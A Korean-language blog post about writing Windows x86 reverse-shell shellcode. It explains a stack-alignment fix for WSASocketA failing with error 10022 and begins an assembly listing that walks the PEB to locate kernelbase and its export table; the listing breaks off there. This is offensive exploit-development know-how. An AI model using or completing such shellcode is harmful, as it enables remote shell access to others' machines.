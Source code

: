 ```yaml
---
layout: post
date: 2023-10-26
title: "Windows Shellcode 작성시에 WSASocketA 함수 사용 시 주의사항"
tags: [Windows, ]
categories: [etc, ]
---
```



리버스쉘에 접속하는 쉘코드를 작성하고 있었는데 왜인지는 모르겠으나 자꾸만 WSASocketA 함수에서 -1이 반환되었다.


WSAGetLastError를 통해 확인해보면 10022(WSAEINVAL) 오류라고 하는데 인수가 잘못되었다고 한다.


바이너리로 만들어서 확인해보면 잘만 되는데 쉘코드로 했을 때는 안되길래 엄청난 삽질 끝에 해결책을 알아냈다. 


해결책은 다음과 같다.


먼저, WSASocketA 함수는 사용 전에 다음과 같은 조건을 맞추어줘야 한다.

- rsp must be 16-byte aligned before the call.
- There must be 32 bytes of free space at the top of the stack before the call, which can be freely used by the called function.
- The first 4 function parameters are in rcx, rdx, r8, and r9, and the remaining parameters are on the stack starting at rsp+0x20.

대부분은 WSASocketA 함수 호출 직전 esp/rsp를 4/8의 배수로 맞춰주면 해결된다.


필자는 쉘 코드 시작시에 `sub esp, 2`를 해줌으로써 해결하였다.


### Reverse Connection Shellcode


---



{% raw %}
```text
global _start

section .text

_start:
SUB esp, 0x2 ; stack alignment for WSASocketA

; Locate Kernelbase.dll address
XOR ECX, ECX						;zero out ECX
MOV EAX, FS:[ecx + 0x30]				;EAX = PEB
MOV EAX, [EAX + 0x0c]					;EAX = PEB->Ldr
MOV ESI, [EAX + 0x14]					;ESI = PEB->Ldr.InMemoryOrderModuleList
LODSD							;memory address of the second list entry structure
XCHG EAX, ESI						;EAX = ESI , ESI = EAX
LODSD							;memory address of the third list entry structure
XCHG EAX, ESI						;EAX = ESI , ESI = EAX
LODSD							;memory address of the fourth list entry structure
MOV EBX, [EAX + 0x10]					;EBX = Base address

; Export Table
MOV EDX, DWORD  [EBX + 0x3C]			;EDX = DOS->e_lfanew
ADD EDX, EBX					;EDX = PE Header
MOV EDX, DWORD  [EDX + 0x78]			;EDX = Offset export table
ADD EDX, EBX					;EDX = Export table
MOV ESI, DWORD  [EDX + 0x20]			;ESI = Offset names table
ADD ESI, EBX					;ESI = Names table
```